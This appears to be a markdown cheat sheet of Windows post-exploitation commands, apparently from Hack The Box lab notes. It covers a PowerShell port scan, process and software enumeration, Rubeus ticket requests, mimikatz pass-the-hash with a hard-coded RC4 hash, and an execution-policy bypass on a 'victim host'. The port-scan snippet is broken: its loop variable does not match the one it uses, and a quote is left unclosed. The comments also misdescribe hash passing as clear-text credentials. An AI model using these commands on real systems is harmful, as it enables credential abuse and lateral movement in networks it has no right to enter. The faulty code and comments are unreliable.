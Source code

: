 ### Ports, services

Scanning ports in Powershell:

```powershell
foreach ($ports in 1..1024) {If (($a=Test-NetConnection 10.10.12.123 -Port $port -WarningAction SilentlyContinue).tcpTestSucceeded -eq $true){ "TCP port $port is open}}
```



### Processes 

```poweshell
# List which processes are elevated:
Get-Process | Add-Member -Name Elevated -MemberType ScriptProperty -Value {if ($this.Name -in @('Idle','System')) {$null} else {-not $this.Path -and -not $this.Handle} } -PassThru | Format-Table Name,Elevated

# List installed software on a computer
get-ciminstance win32_product | fl

```


### **Run a utility as another user**

```powershell
# Run an utility as another user with rubeus. Passing clear text credentials
rubeus.exe asktgt /user:jackie.may /domain:htb.local /dc:10.10.110.100 /rc4:ad11e823e1638def97afa7cb08156a94

# Run an utility as another user with mimikatz.exe. Passing clear text credentials
mimikatz.exe sekurlsa::pth /domain:htb.local /user:jackie.may /rc4:ad11e823e1638def97afa7cb08156a94

```


### Policies and antivirus

```powershell
# Lists available modules loaded for use.
Get-Module	

#  print the execution policy settings for each scope on a host.
Get-ExecutionPolicy -List	

#This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.
Set-ExecutionPolicy Bypass -Scope Process	
```

 [AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker) is Microsoft's application whitelisting solution and gives system administrators control over which applications and files users can run.
